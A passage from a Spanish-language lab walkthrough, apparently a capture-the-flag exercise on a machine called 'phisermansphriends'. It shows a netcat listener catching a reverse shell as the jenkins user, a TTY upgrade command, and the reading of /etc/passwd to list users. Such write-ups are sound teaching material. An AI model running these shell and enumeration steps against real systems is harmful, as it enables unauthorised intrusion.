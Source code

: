 ![image](/assets/images/phisermans/3.png)

Obtenemos la shell:

```bash
$ sudo nc -nlvp 443
[sudo] password for murrusko: 
listening on [any] 443 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.15] 49810

script /dev/null -qc bash
jenkins@phisermansphriends:~$ ^Z
```

Hacemos el tratamiento de la TTY y estamos dentro del sistema.

Miramos que usuarios hay en el sistema y vemos que hay 2 usuarios más además de el usario root.

```bash
jenkins@phisermansphriends:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
mur:x:1000:1000:Mur Rusko,,,:/home/mur:/bin/bash
jenkins:x:106:115:Jenkins,,,:/var/lib/jenkins:/bin/bash
sysadmin:x:1001:1001:sysadmin,,,:/home/sysadmin:/bin/bash
```
